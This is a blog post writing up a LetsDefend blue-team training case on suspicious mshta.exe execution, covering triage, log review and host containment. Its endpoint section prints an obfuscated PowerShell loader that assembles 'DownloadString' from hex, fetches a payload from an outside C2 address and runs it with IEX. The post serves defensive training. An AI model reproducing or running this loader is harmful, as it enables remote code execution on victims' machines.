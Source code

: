 ```yaml
---
layout: post
published: true
title: write up - suspicious mshta behavior
author: admin
comments: true
date: '2022-04-13 18:00'
categories:
  - DFIR
---
```


I've been trying out [letsdefend.io](https://letsdefend.io/) for a couple of week, and here's a write up of one of the challenge. its a platform to hone your blue teaming skill, you play in a SIEM like apps and you act as an analyst, finding IOC and deciding escalation etc. There are not a lot of blue team training site, and this hands on concept by [letsdefend.io](https://letsdefend.io/) is great. 

With that intro about [letsdefend.io](https://letsdefend.io/) out of the way, here goes the write up. 
<!--more-->

![mshta behaviour](/images/wup_ld.png)

This is what the case looked like, basically a host execute a hta thus an alert is triggered. Our job is to see what really happened and do the intended playbook exercise. Some things that we can check to help with analysis are the hash (virustotal) and the IP address (we'll try command history & proccess history we found at the endpoint security tab). Afterward we are gonna decide on containment (eradication and recovery) and last the lesson learned from said incident.

#### virustotal

virustotal result are bad, 23/58 malicious flag. you could also try to find the file and do more analysis, but for now I think we can move to endpoint security tabs and do more analysis there.

[virustotal](https://www.virustotal.com/gui/file/886095c7861a068d1ee603c71cb161f256941e802e743fe2161f30013947a2f1/detection)


#### endpoint security

![wup_endpoint](/images/wup_endpoint.png)

We use endpoint security tab to find out what was happening in the host 172.16.17.38. 
The screenshot above is from the command history portion of the tab, where we can see that the first command line that trigger the alert, followed by another not so clear command.

The first command is what triggered the alert. Mshta is a trusted Microsoft binary that in this case is abused for execution of the PS1.hta file. 
you can see the related explanation here at the [MITRE](https://attack.mitre.org/techniques/T1218/005/)

Tried a bit of magic at the second command so it will be more readable. 

```bash
function H1($i) 
{$r = '' ; for ($n = 0; $n -Lt $i.LengtH; $n += 2)
{$r += [cHar][int]('0x' + $i.Substring($n,2))}return $r};
$H2 = (new-object ('{1}{0}{2}' -f'WebCL','net.','ient'));
$H3 = H1 '446f776E';
$H4 = H1 '6C6f';
$H5 = H1 '616473747269';
$H6 = H1 '6E67';
$H7 = $H3+$H4+$H5+$H6;
$H8 = $H2.$H7('http://193.142.58.23/Server.txt');
iEX $H8
```

$H3-H6 with the help of $H1 just basically hex that reads "Downloadstring". 
$H2 was a glorified "New-Object Net.WebClient". 
$H8 puts them all together to form an old fashion download using powershell from address mentioned in $H8 (http://193.142.58.23/Server.txt). 

#### log management

After seeing what the script do, we best check log management and try to see did the c2 server (193.142.58.23) reply with anything.

![wup_endpoint](/images/wup_logmgmt.png)

apparently the server replied with 404, so no response arrived for the host (172.16.17.38) because the server is dead/ the file was not there.

#### containment and lesson learned

Based on our previous analysis, we can safely conclude that its a malicious script (but stopped due to the C2 server is dead), next step would be to contain the host. We can do this by going to endpoint security and use the request containment button. 

Lastly, we can use the IP address, and URL and also the md5 hash of the executed file can as IOC when we did the playbook and also close the case.



